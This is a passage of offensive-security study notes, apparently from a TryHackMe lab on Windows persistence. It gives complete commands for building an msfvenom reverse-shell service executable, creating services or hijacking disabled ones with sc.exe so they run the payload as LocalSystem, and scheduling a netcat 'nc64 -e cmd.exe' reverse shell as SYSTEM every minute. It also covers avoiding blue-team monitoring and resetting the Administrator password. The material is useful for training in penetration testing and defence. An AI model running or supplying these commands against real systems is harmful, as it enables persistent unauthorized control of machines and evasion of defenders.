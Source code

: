The `net user` command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (`start= auto`), so that it runs without requiring user interaction.

---

Resetting a user's password works well enough, but we can also create a reverse shell with [[Metasploit#Msfvenom|msfvenom]] and associate it with the created service. Notice, however, that services executables are unique since they need to implement a particular protocol to be handled by the system. If we want to create an executable that is compatible with Windows services, we can use the `exe-service` format in msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=4444 -f exe-service -o rev-svc.exe
```
We can then copy the executable and point the service's binPath to it
```powershell
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```
When the service is started we should get back a connection.

## Modifying existing services
While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.
We can get a list of available services using the following command
```powershell
sc.exe query state=all
```
From here we can start checking for stopped services, we then can query the service's configuration, to find more about the,
```powershell
sc.exe qc ServiceName
```
There are three things we care about when using a service for persistence
- The executable (`BINARy_PATH_NAME`) should point to our payload
- The service `START_TYPE` should be automatic so that the payload runs without the user interaction.
- The `SSERVICE_START_NAME`, which is the account under which the service will run, should preferably be set to `LocalSystem` to gain SYSTEM privileges.
We can again create a reverse shell with msfvenom just like above.
Then we need to reconfigure our old service parameters, we can use the following 
```powershell
sc.exe config OldService binPath= "C:\windows\rev-svc.exe" start= auto obj= "LocalSystem"
```
We could of course try to also make a service in the original location if we think that by changing it we might attract attention. Finally we can start the service and we should receive a connection. 

# Scheduled Tasks
We can also scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems.
## Task Scheduler
The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when our task will start, allowing us to configure tasks that will activate at specif hours, repeat periodically or even trigger when specific system events occur. From the command line, we can use `schtasks` to interact with the task scheduler.
Let's create a task that runs a reverse every single minute. In a real-world scenario, we wouldn't want our payload to run so often, but as an example we will.
```powershell
schtasks /create /sc minute /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe IP 4444" /ru SYSTEM
```